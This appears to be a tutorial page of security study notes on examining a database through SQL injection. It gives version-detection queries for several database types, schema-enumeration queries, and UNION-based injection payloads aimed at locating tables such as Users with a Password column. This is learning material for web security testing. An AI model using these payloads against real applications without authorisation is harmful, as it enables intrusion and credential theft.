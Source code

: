 ```yaml
---
title: "SQL - Examining the database"
permalink: /SQL-Examining/
layout: single
author-profile: true
---
```


You can query the version details for the database. The way that this is done depends on the database type, so you can infer the database type from whichever technique works. For example, on Oracle you can execute:

``SELECT * FROM v$version``

You can also determine what database tables exist, and which columns they contain. For example, on most databases you can execute the following query to list the tables:

``SELECT * FROM information_schema.tables``

## Querying the database type and version
Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.
The queries to determine the database version for some popular database types are as follows:
```
Database type       Query
Microsoft, MySQL    SELECT @@version

Oracle              SELECT * FROM v$version

PostgreSQL          SELECT version()
```
For example, you could use a UNION attack with the following input:

``' UNION SELECT @@version–``

On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example:

``UNION SELECT 'abc' FROM dual``

## Listing the contents of the database
Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.
 
You can query information_schema.tables to list the tables in the database:

``SELECT * FROM information_schema.tables``

This returns output like the following:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
``` 
This output indicates that there are three tables, called Products, Users, and Feedback.
 
You can then query information_schema.columns to list the columns in individual tables:

``SELECT * FROM information_schema.columns WHERE table_name = 'Users'``

This returns output like the following:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```
This output shows the columns in the specified table and the data type of each column.

### Equivalent to information schema on Oracle
On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all_tables:

``SELECT table_name FROM all_tables``

And you can list columns by querying all_tab_columns:

``SELECT * FROM all_tab_columns WHERE table_name = 'USERS'``
